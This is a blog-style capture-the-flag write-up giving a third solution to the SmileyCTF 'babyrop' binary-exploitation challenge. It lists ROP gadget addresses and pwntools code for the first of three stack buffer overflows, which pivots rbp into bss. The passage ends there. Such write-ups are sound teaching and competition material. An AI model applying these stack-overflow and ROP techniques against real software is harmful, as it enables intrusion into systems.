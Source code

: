 ```yaml
---
title: "SmileyCTF babyrop Writeup 3"
date: 2025-07-24 18:00:00 +0000
layout: post
categories: [CTF, Writeup, SmileyCTF, babyrop]
tags: [smileyctf, pwn, rop, return-oriented-programming, linux-binary-exploitation, binary-exploitation, buffer-overflow, stack-based-buffer-overflow, python, c, pwntools, gef]
description: "Reverse engineering and pwning the SmileyCTF Babyrop challenge binary. Includes LIBC leak and Return-Oriented Programming"
image: "/assets/images/SmileyCTF-babyrop/smileyCTF_pic.png"
---
```


This is the **third solution** for the SmileyCTF-babyrop challenge, and it's the most satisfying one for me. I like to call it "**playing with memory like a master**."

### Quick recap

The PoC owner creates two carefully crafted chunks for this exploit. The first chunk is called the **Chunk Execution Workflow (CEW) chunk**, and the second is the **Chunk Execution Manager (CEM) chunk**.

I appreciate this PoC because it's **clean, clear, and robust**. The PoC overflows the buffer three times, allowing for significant manipulation of the execution flow. This is what makes it particularly special to me.

### The gadgets

I added some comments to code, hope it would help you to understand.

```python
offset      = 0x20        # rbp overwrite offset
bss         = 0x404800    # bss address the CEW chunk

gets_gadget = 0x401205    # 0x401205 <+54>:    lea    rax,[rbp-0x20]
print_gadget = 0x401211    # 0x401211 <+66>:    mov    rdx,QWORD PTR [rip+0x2df8]        # 0x404010 <print>

leave_ret   = 0x401226    # 0x401226 <+87>:    leave; ret
pop_rbp     = 0x401181    # 0x401181 <gadgets+11>:       pop    rbp; ret
pop_rcx     = 0x40117e    # 0x40117e <gadgets+8>:        pop    rcx
add_bl_dh   = 0x4010bf    # 
ret         = pop_rbp + 1 # ret;
```


### 1st Overflow

The first overflow is the classic one, preparing `rbp` at `bss-0x10` and injecting the CEW payload. This gains control of `RIP`, directing execution to `gets_gadgets`.

```python
payload = flat({
    offset: [
        bss-0x10,   #set rbp to 0x4047f0
        gets_gadget # rip
    ]
}, filler=b'A')

input("Payload send set rbp 0x404058")
io.sendline(payload)

log.info(f"payload 1 output {io.recv()}")
```
